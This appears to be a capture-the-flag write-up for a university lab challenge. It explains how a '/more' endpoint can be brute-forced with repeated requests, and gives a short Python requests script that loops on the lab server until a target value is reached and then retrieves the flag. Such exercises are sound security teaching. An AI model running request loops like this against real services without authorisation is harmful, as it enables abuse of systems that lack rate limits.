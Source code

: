 # Challenge `Python Resquests` Writeup

- Vulnerability:
    - Endpoint is vulnerable to brute-force attack

- Where:
    - `/more` endpoint

- Impact:
    - Allows to find the server guess by repeated requests

## Steps to reproduce

### Step 1: Get cookie, target value, and current value
Firstly, we need to send a request to `/hello` to get the cookie, the target value and the current value.

```python
import requests
import re

link = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23053"
s = requests.Session()
r = s.get(link + "/hello")

target = re.search(r"target (\d+)", r.text, re.IGNORECASE)[1]
curr = re.search(r"Your current value is: (\d+)", r.text, re.IGNORECASE)[1]
```

### Step 2: Send requests to `/more` until the target value is reached

```python
while curr != target:
    r = s.get(link + "/more")
    curr = re.search(r"Your current value is: (\d+)", r.text, re.IGNORECASE)[1]
```

### Step 3: Get flag
Once the target value is reached, send a request to `/finish` to get the flag.

```python
r = s.get(link + "/finish")
print(r.text)
```

## Implementation

The full implementation can be found [here](py-requests.py).